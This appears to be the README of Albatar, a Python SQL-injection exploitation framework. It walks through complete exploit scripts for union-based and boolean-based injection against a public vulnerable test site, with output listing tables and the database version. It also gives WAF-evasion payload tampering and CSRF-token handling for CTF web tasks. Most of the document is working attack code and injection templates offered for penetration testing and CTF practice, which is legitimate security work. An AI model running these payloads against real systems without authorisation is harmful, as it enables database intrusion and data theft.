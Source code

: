 I wrote Albatar to have a neat and tidy tool to exploit SQL injection vulnerabilities.

Unlike [sqlmap](http://sqlmap.org/), Albatar will not detect SQL injection vulnerabilities, it is primarily designed to help exploit not-so-straightforward injections where sqlmap would need tweaking and patching to work.

Albatar is a framework in Python. As a result, you need to write some Python code to be able to exploit the SQLI. Then simply invoke your script by passing sqlmap-like command line options (like --dbs, --banner etc.) to retrieve data from the database.

Currently, Albatar supports MySQL, MSSQL and Oracle with the Union, Error, Boolean and Time techniques.

## Examples

* Simple union-based SQLI (MySQL)

Let's use Albatar to exploit a textbook union-based SQLI at http://testphp.vulnweb.com/artists.php?artist=1. Clone the repository, and create the below script:
```python
from albatar import *
import re

PROXIES = {} #'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}
HEADERS = ['User-Agent: Mozilla/5.0']

def extract_results(headers, body, time):
  return re.findall(':ABC:(.+?):ABC:', body, re.S)

def mysql_union():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/artists.php?artist=${injection}',
      method = 'GET',
      response_processor = extract_results,
      )

  template = '-1 union all select null,null,concat(0x3a4142433a,X,0x3a4142433a) from ${query}-- '

  return Method_union(make_requester, template)

sqli = MySQL_Inband(mysql_union())

for r in sqli.exploit():
  print(r)
```

Then execute the script to exploit the SQLI:
```
$ python3 testphp-union.py -D acuart --tables
15:41:49 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:41 AEST
15:41:49 albatar - Executing: ('(SELECT COUNT(*) X FROM information_schema.tables WHERE table_schema="acuart")a', '(SELECT table_name X FROM information_schema.tables WHERE table_schema="acuart" LIMIT ${row_pos},${row_count})a')
15:41:50 albatar - count: 8
artists
carts
categ
featured
guestbook
pictures
products
users
15:41:56 albatar - Time: 0h 0m 6s
```

* Simple boolean-based SQLI (MySQL)

Here's how to exploit a boolean-based SQLI at http://testphp.vulnweb.com/listproducts.php?cat=1.
```python
from albatar import *

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Lorem ipsum dolor sit amet' in body

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://testphp.vulnweb.com/listproducts.php?cat=${injection}',
      method = 'GET',
      response_processor = test_state_grep,
      )

  template = '1 and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask}'

  return Method_bitwise(make_requester, template, confirm_char=True)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print(r)
```

And execute:
```
$ python3 testphp-boolean.py -b
15:43:18 albatar - Starting Albatar v0.1 (https://github.com/lanjelot/albatar) at 2020-04-13 15:43 AEST
15:43:18 albatar - Executing: 'SELECT VERSION()'
5.1.73-0ubuntu0.10.04.1
15:43:45 albatar - Time: 0h 0m 27s
```

* Encoding / WAF evasion

If you need to encode your payload to meet specific requirements, simply code a function to mangle the payload in every request.
The web task [luhn-300](https://github.com/ctfs/write-ups-2016/tree/master/nullcon-hackim-2016/web/luhn-300) from Hackim CTF 2016 was a good example to showcase this, where every request had to have a valid Luhn checksum.
```python
from albatar import *
from baluhn import generate
from urllib import quote

PROXIES = {} #'http': 'http://127.0.0.1:8082', 'https': 'http://127.0.0.1:8082'}
HEADERS = ['User-Agent: Mozilla/5.0']

def test_state_grep(headers, body, time):
  return 'Your CC has been compromised' in body

def add_luhn(s):
  digits = filter(lambda c: c.isdigit(), s)

  # our payload must have an even number of digits otherwise the serve computes
  # a different checksum than us
  if len(digits) % 2 == 0:
    s += '0'
    digits += '0'

  return s + generate(''.join(digits))

def mysql_boolean():

  def make_requester():
    return Requester_HTTP(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://52.91.163.151/',
      body = 'cc=4111111111111111${injection}',
      method = 'POST',
      response_processor = test_state_grep,
      tamper_payload = add_luhn,
      )

  template = "' and (ascii(substring((${query}),${char_pos},1))&${bit_mask})=${bit_mask} -- "

  return Method_bitwise(make_requester, template)

sqli = MySQL_Blind(mysql_boolean())

for r in sqli.exploit():
  print r
```

* CSRF tokens

If you need to do anything before or after submitting the SQLI payload, simply extend the Requester class. For example, if you need to provide a CSRF token, like with the web task [hackme-400](https://github.com/ctfs/write-ups-2016/tree/master/su-ctf-2016/web/hackme-400) from SU CTF 2016, write something like this:
```python
...
class Requester_CSRF(Requester_HTTP_requests):

  def test(self, payload):
    response = self.session.get('http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php')
    token = re.search("name='user_token' value='([^']+)'", response.text).group(1)
    self.http_opts[2] = self.http_opts[2].replace('_CSRF_', token)

    return super(Requester_CSRF, self).test(payload)

def mysql_union():

  def make_requester():
    return Requester_CSRF(
      proxies = PROXIES,
      headers = HEADERS,
      url = 'http://ctf.sharif.edu:35455/chal/hackme/8b784460681e5282/login.php',
      body = 'username=${injection}&password=asdf&Login=Login&user_token=_CSRF_',
      method = 'POST',
      response_processor = extract_results,
      )

  template = "a' union select concat(0x3a4142433a,X,0x3a4142433a),null,null,null from ${query} #"

  return Method_union(make_requester, template, pager=10)
```

You could even write a brand new Requester class to exploit a SQLI that is not in a web application, but in a command line application for example.

* More

Find more examples in [demo.py](demo.py).
